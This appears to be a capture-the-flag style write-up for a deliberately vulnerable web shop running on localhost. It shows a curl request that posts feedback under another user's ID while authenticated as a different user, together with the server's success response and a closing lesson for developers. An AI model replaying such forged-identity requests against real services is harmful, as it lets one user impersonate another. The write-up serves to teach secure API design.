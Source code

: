 The most difficult part of this challenge was determining what they mean by
"feedback." Is is feedback on a particular shop item, feedback via a complaint,
or feedback via a "Contact Us" submission?

After trying all 3, turns out it was via a "Contact Us" submission. The API
endpoint for submitting the "Contact Us" form allows the client to specify the
User ID of the submitter.

If we pull the submission post from the Chrome inspector via the "Copy as
cURL" feature we can easily grab a `curl` command for submitting the form. E.g.

```
$ curl 'http://localhost:3000/api/Feedbacks/' -H 'Authorization: Bearer eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdGF0dXMiOiJzdWNjZXNzIiwiZGF0YSI6eyJpZCI6MiwiZW1haWwiOiJqaW1AanVpY2Utc2gub3AiLCJwYXNzd29yZCI6ImU1NDFjYTdlY2Y3MmI4ZDEyODY0NzRmYzYxM2U1ZTQ1IiwiY3JlYXRlZEF0IjoiMjAxOC0wMi0wNSAxMToxNjoxMy4zODggKzAwOjAwIiwidXBkYXRlZEF0IjoiMjAxOC0wMi0wNSAxMToxNjoxMy4zODggKzAwOjAwIn0sImlhdCI6MTUxNzgzNTQwNywiZXhwIjoxNTE3ODUzNDA3fQ.S2hqT5yEvtJKgohm4FrExMGRIIx3-H85wHK383n_dPNdQcHhjivwRsC8B44eJmmfyg0AWz87AihQ9YV4t6xJXHblGr05P4Rb0vFYaHZTxAqkFglUehrqONId_lTDOx_Z4DGvrjSWJkxE0wutGjICrNIPwteHkr4G79iwOOh7Xdk' --data-binary '{"UserId":3,"comment":"WAT","rating":1}'
{"status":"success","data":{"id":12,"updatedAt":"2018-02-05T15:14:33.591Z","createdAt":"2018-02-05T15:14:33.591Z","comment":null,"rating":null,"UserId":null}}
```

So, despite using the authorization token for `jim` (User ID `2`), we can
submit customer feedback for `bender` (User ID `3`).

And the lesson for the day is... Don't let the client determine which user it's
submitting data for.
